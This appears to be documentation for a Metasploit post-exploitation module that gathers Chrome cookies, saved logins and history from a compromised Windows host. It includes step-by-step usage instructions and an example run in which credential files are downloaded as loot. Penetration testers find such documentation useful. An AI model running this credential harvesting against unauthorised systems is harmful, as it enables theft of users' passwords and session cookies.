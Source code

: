 ## Module Description

This post-exploitation module gathers artifacts found on Chrome related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/chrome
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/chrome) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Chrome's parent folder found
[*] Chrome's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Cookies
[*] Chrome Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeCookies_228131.bin

[*] no such table: cookiess
[*] Chrome's parent folder found
[*] Chrome's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\Login Data
[*] Chrome Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513135138_default_192.168.56.106_chromeLoginData_686416.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513135139_default_192.168.56.106_EXTRACTIONSLogin_188262.bin
[*] Chrome's parent folder found
[*] Chrome's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Google\Chrome\User Data\Default\History
[*] Chrome History downloaded
[+] File saved to:  /root/.msf4/loot/20210513135139_default_192.168.56.106_chromeHistory_527301.bin

[*] no such column: lower_term
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
